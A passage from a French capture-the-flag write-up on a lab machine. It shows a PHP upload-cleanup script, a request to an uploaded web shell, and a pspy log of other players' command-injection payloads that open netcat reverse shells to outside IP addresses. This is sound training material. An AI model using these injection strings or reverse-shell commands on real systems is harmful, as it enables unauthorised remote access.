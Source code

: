 On voit que si le fichier est index.html le code fait quelquechose sinon il fait autre chose. Index.html est dans 

En googlant on trouve un lien intéressant sur Pastebin: https://pastebin.com/uypyiimG

~~~
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";
(...)
~~~

La variable $PATH est donc égale à /var/www/html/uploads/. On voit dans le code qu'il y a une itération pour chaque fichier présent dans le dossier /var/www/html/uploads/

Certains attaquant on uploadé pspy et nous avons accès aux résultats. Profitons en:

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=cat%20/tmp/pspy64.output

~~~
(...)
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4541   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -c bash 10.10.15.122 4445 > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4542   | php /home/guly/check_attack.php [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4546   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -nv 10.10.14.215 443 -e bash > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4545   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -nv 10.10.14.215 443 -e bash > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4547   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -nv 10.10.14.215 443 -e bash > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4548   | php /home/guly/check_attack.php [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4552   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -nv localhost 443 -e bash > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4551   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -nv localhost 443 -e bash > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4553   | sh -c nohup /bin/rm -f /var/www/html/uploads/; nc -nv localhost 443 -e bash > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4554   | php /home/guly/check_attack.php [0m
2019/10/13 12:54:01 [34;1mCMD: UID=0    PID=4555   | sendmail: server localhost [127.0.0.1] cmd read[0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4558   | sh -c nohup /bin/rm -f /var/www/html/uploads/; touch michel > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4557   | sh -c nohup /bin/rm -f /var/www/html/uploads/; touch michel > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4559   | sh -c nohup /bin/rm -f /var/www/html/uploads/; touch michel > /dev/null 2>&1 & [0m
2019/10/13 12:54:01 [35;1mCMD: UID=1000 PID=4560   | /usr/sbin/sendmail -t -i -F; touch michel [0m
2019/10/13 12:54:01 [34;1mCMD: UID=0    PID=4561   | sendmail: x9DAs1u3004561 localhost [127.0.0.1]: DATA[0m
2019/10/13 12:54:02 [35;1mCMD: UID=1000 PID=4564   | sh -c nohup /bin/rm -f /var/www/html/uploads/;nohup nc -c 10.10.14.239 4546 -e bash & > /dev/null 2>&1 & [0m
~~~